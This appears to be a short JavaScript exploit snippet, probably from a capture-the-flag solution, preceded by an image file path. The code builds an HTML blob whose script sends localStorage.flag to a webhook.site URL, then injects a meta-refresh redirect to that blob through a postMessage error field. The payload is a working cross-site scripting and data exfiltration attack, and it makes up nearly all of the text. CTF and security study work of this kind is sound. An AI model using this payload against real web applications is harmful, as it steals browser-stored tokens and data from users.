 let blob = new Blob(["<script>fetch('https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a/?' + localStorage.flag)</script>"], {type: 'text/html'});
self.postMessage({ type: "error", msg:`<meta http-equiv="refresh" content="0; url=${URL.createObjectURL(blob)}" />` })